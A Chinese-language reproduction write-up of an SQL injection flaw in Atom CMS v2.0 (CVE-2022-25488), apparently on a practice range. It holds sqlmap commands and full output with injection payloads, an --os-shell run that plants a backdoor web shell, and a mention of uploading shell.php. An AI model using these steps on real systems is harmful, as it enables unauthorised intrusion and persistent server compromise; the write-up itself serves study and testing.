




# CVE-2022-25488（Atom CMS v2.0存在sql注入漏洞）

<div style="text-align: right;">

date: "2023-01-11"

</div>

参考文章：[AtomCMS“靶场“](https://blog.csdn.net/qq_26131031/article/details/124180036)

## 漏洞描述

- Atom CMS v2.0存在sql注入漏洞在/admin/ajax/avatar.php页面


## 漏洞原理

- 暂无


## 漏洞复现

访问后台登录页面/admin/login.php，此处是邮箱加密码登陆


#### 登录处SQL注入

此处email字段没有经过过滤，存在sql注入，抓取登陆的数据包，sqlmap一把梭之后得到了文件上传的地址（http://example.com/tmpuixmv.php），直接上传shell，冰蝎连接。

```bash
C:\Users\手动打码\Desktop\常用漏洞检测工具\漏洞扫描\sqlmap-1.6
λ python3 sqlmap.py -r 1.txt -p email --os-shell
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:58:32 /2023-01-11/

[21:58:32] [INFO] parsing HTTP request from '1.txt'
[21:58:33] [INFO] resuming back-end DBMS 'mysql'
[21:58:33] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=chanyue@gmail.com' AND (SELECT 1118 FROM (SELECT(SLEEP(5)))cwfY) AND 'DaDZ'='DaDZ&password=123

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: email=chanyue@gmail.com' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7178627871,0x4e476569784d464c46544e4a696b656e7661566b5369464f6a6e666b6a7241507373695770694641,0x716a716271),NULL,NULL,NULL-- -&password=123
---
[21:58:35] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[21:58:35] [INFO] going to use a web backdoor for command prompt
[21:58:35] [INFO] fingerprinting the back-end DBMS operating system
got a 302 redirect to 'http://example.com:80/admin/index.php'. Do you want to follow? [Y/n]
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N]
[21:58:39] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
do you want sqlmap to further try to provoke the full path disclosure? [Y/n]

[21:58:49] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1
[21:58:54] [WARNING] unable to automatically parse any web server path
[21:58:54] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[21:58:56] [WARNING] unable to upload the file stager on '/var/www/'
[21:58:56] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[21:58:59] [WARNING] expect junk characters inside the file as a leftover from UNION query
[21:59:00] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[21:59:02] [INFO] trying to upload the file stager on '/var/www/admin/' via LIMIT 'LINES TERMINATED BY' method
[21:59:06] [WARNING] unable to upload the file stager on '/var/www/admin/'
[21:59:06] [INFO] trying to upload the file stager on '/var/www/admin/' via UNION method
[21:59:09] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[21:59:12] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[21:59:18] [WARNING] unable to upload the file stager on '/var/www/html/'
[21:59:18] [INFO] trying to upload the file stager on '/var/www/html/' via UNION method
[21:59:21] [INFO] the remote file '/var/www/html/tmpuixmv.php' is larger (711 B) than the local file 'C:\Users\手动打码\AppData\Local\Temp\sqlmap5ohgy_hz1948\tmpdtp9spzf' (705B)
[21:59:24] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://example.com:80/tmpuixmv.php
[21:59:26] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://example.com:80/tmpbbwuz.php
[21:59:26] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
```



#### 后台文件上传

根据网上找到的账号密码，账号是下面的邮箱，密码是password，登录到后台

```sql
INSERT INTO `users` (`id`, `first`, `last`, `email`, `password`, `status`) VALUES
(1, 'Alan2', 'Quandt', 'alan@alan.com', '5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8', 1),
(2, 'Justin', 'Gilson', 'justin@justin.com', '5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8', 1),
(3, 'John', 'Rainey', 'john@john.com', '5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8', 1),
(5, 'John', 'Doe', 'john@doe.com', '5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8', 0),
(6, 'Jane', 'Doe', 'jane@doe.com', '5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8', 1);
```

这里可以看到头像的url地址，下面还有一个文件上传的地方，未作验证直接上传shell.php即可，但靶场可能作了啥限制，这里上传以后一直没啥变化。



#### 第二处SQL注入

访问url：http://example.com/admin/ajax/ ，可以看到我们需要测试的url也在其中，点击进去是空白的，其实里面是有东西的，请求相应包如下所示。直接sqlmap测试，发现存在sql注入。





```http
HTTP/1.1 200 OK
Date: Wed, 11 Jan 2023 14:26:29 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 82
Connection: close
Vary: Accept-Encoding


<div class="avatar-container" style="background-image: url('../../uploads/')"></div>
```

```bash
C:\Users\手动打码\Desktop\常用漏洞检测工具\漏洞扫描\sqlmap-1.6
λ python3 sqlmap.py -u http://example.com/admin/ajax/avatar.php?id=1
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:46:38 /2023-01-11/

[22:46:38] [INFO] testing connection to the target URL
[22:46:39] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:46:40] [INFO] testing if the target URL content is stable
[22:46:42] [INFO] target URL content is stable
[22:46:42] [INFO] testing if GET parameter 'id' is dynamic
[22:46:42] [INFO] GET parameter 'id' appears to be dynamic
[22:46:45] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[22:46:46] [INFO] testing for SQL injection on GET parameter 'id'
[22:46:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:46:50] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[22:47:11] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]

for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]

[22:47:14] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:47:15] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[22:47:16] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[22:47:17] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[22:47:18] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[22:47:19] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[22:47:20] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[22:47:20] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[22:47:22] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[22:47:23] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[22:47:23] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:47:25] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:47:25] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[22:47:26] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[22:47:27] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[22:47:28] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[22:47:31] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[22:47:32] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[22:47:33] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[22:47:33] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[22:47:34] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[22:47:35] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[22:47:35] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[22:47:37] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[22:47:38] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[22:47:38] [INFO] testing 'Generic inline queries'
[22:47:39] [INFO] testing 'MySQL inline queries'
[22:47:40] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:47:40] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
[22:47:41] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[22:47:41] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[22:47:43] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[22:47:43] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[22:47:44] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[22:47:45] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:47:59] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[22:47:59] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:47:59] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:48:01] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:48:05] [INFO] target URL appears to have 1 column in query
[22:48:10] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 73 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9978=9978

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 7396 FROM (SELECT(SLEEP(5)))Xcyy)

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: id=-2153 UNION ALL SELECT CONCAT(0x716a627071,0x6a50776557496f464856746a4f46564c47564750724146537a4676744d624d556142654a63684b48,0x71787a6b71)-- -
---
[22:48:15] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[22:48:22] [INFO] fetched data logged to text files under 'C:\Users\手动打码\AppData\Local\sqlmap\output\example.com'
[22:48:22] [WARNING] your sqlmap version is outdated

[*] ending @ 22:48:22 /2023-01-11/
```
